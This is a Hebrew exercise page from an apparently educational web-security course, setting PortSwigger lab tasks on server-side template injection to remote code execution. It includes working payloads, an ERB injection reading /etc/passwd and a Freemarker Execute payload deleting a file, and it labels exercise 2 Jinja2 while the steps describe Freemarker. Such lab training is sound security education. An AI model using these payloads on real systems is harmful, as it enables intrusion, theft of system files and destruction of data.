

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.6 - SSTI ל-RCE/7.6 - SSTI ל-RCE - תרגיל/index.html · generator: mkdocs

# SSTI ל-RCE - תרגיל

## תרגיל 1 - זיהוי מנוע Template

### משימה

השלימו את המעבדה:

**Basic server-side template injection**
`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic`

### שלבים מנחים

1. מצאו פרמטר שמקבל קלט ומוצג בדף
2. הזינו `${7*7}` ובדקו אם מקבלים 49
3. זהו את מנוע ה-Template (רמז: ERB)
4. הריצו פקודה:
```erb
<%= system("cat /etc/passwd") %>
```

## תרגיל 2 - exploit Jinja2

### משימה

**Server-side template injection using documentation**
`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation`

### שלבים מנחים

1. מצאו את נקודת ה-SSTI
2. זהו שזה Freemarker (Java)
3. השתמשו ב-Execute class:
```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("rm /home/carlos/morale.txt")}
```

## תרגיל 3 - SSTI בהקשר של קוד

### משימה

**Server-side template injection in an unknown language with a documented exploit**
`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit`
